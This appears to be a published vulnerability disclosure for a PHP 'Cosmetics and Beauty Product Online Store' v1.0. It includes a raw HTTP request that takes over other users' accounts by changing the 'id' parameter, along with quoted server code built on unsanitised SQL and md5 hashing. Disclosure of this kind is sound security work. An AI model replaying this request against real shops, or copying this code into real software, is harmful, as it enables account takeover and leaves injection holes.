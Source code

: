 # Exploit Title: Cosmetic and Beauty Products Online Shop 1.0 - Broken Access Control with Update account funtions

> Broken Access Control via ID user can change info, email of other account client on Cosmetics-and-Beauty-Product-Online-Store v1.0.

### Date: 
> 15 Apr 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Cosmetics and Beauty Product Online Store](https://www.sourcecodester.com/php/15181/cosmetics-and-beauty-product-online-store-phpoop-free-source-code.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> /cbpos/classes/Master.php?f=update_account


### Description:
> Broken Access Control via ID user can change info, email of other account client on Cosmetics-and-Beauty-Product-Online-Store v1.0.

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /cbpos/?p=edit_account
2. Edit your account and view request
Request
```
POST /cbpos/classes/Master.php?f=update_account HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 154
Origin: http://localhost
Connection: close
Referer: http://localhost/cbpos/?p=edit_account
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=51spndcudrtniksvqgp19cifo8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=CHANGE_ID&firstname=account+1&lastname=bBAC&contact=122222222&gender=Male&default_delivery_address=hn&email=account1%40gmail.com&password=&cpassword=test123%40
```

3. Change id, email of other account and view result

Before:

![Example Image](https://drive.google.com/uc?id=1nyfDONIKVN2GmVSQMa0P3DeJKzrj-Cnv)

After:

![Example Image](https://drive.google.com/uc?id=19ty_CGmKCAOyU1jP_aH2Ewdh-MSLb1qR)

4. CODE
```
function update_account(){
		if(!empty($_POST['password']))
			$_POST['password'] = md5($password);
		else
			unset($_POST['password']);
		extract($_POST);
		$data = "";
		if(md5($cpassword) != $this->settings->userdata('password')){
			$resp['status'] = 'failed';
			$resp['msg'] = "Current Password is Incorrect";
			return json_encode($resp);
			exit;
		}
		$check = $this->conn->query("SELECT * FROM `clients`  where `email`='{$email}' and `id` != $id ")->num_rows;
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Email already taken.";
			return json_encode($resp);
			exit;
		}
		foreach($_POST as $k =>$v){
			if($k == 'cpassword' || ($k == 'password' && empty($v)))
				continue;
				if(!empty($data)) $data .=",";
					$data .= " `{$k}`='{$v}' ";
		}
		$save = $this->conn->query("UPDATE `clients` set $data where id = $id ");
		if($save){
			foreach($_POST as $k =>$v){
				if($k != 'cpassword')
				$this->settings->set_userdata($k,$v);
			}
			
			$this->settings->set_userdata('id',$this->conn->insert_id);
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success',' Your Account Details has been updated successfully.');
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);
```

### Impact:
> Broken access control vulnerability is a type of security flaw that allows an unauthorized user access to restricted resources. Attacker can change other account info and account takeover
